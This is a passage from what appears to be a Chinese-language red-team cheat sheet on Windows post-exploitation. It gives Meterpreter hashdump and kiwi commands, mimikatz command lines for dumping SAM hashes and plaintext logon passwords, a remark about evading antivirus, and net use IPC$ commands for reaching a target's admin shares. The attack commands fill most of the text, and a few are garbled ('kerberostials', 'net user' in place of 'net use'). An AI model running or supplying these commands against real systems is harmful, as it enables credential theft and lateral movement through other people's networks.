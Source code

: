 ```
meterpreter> hashdump
```

**smart_hashdump**

可以dump本地 + 域用户hash

```
use post/windows/gather/smart_hashdump
```

**加载第三方模块**

**KIWI**

```bash
meterpreter> load kiwi
meterpreter> creds_all
meterpreter> lsa_dump_sam
```

**mimikatz**

```bash
meterpreter> load mimikatz
meterpreter> msv
meterpreter> kerberostials
```

（**以上MSF模块，都需要SYSTEM权限**）

## mimikatz在线读取SAM文件获取Hash

将mimikatz上传到目标主机，需要免杀，并且要SYSTEM权限。

```bash
#运行mimikatz,提升权限并读取SAM文件，获取NTML Hash
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit

#读取散列值和明文密码
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" exit
```

# 指定主机上线

## IPC命名管道连接

**利用条件**

1、目标开启139、445端口

2、管理员开启默认共享（admin$、c$、d$等）

**建立一个连接**

```bash
net use \\目标IP\ipc$ "密码" /user:账号

#查看当前已建立的连接
net use

#列出目标目录文件
dir \\目标IP\c$

#映射共享磁盘到本地
net use z: \\IP\c$ "密码" /user:"用户名"

#删除连接
net user \\目标IP\ipc$ /del
```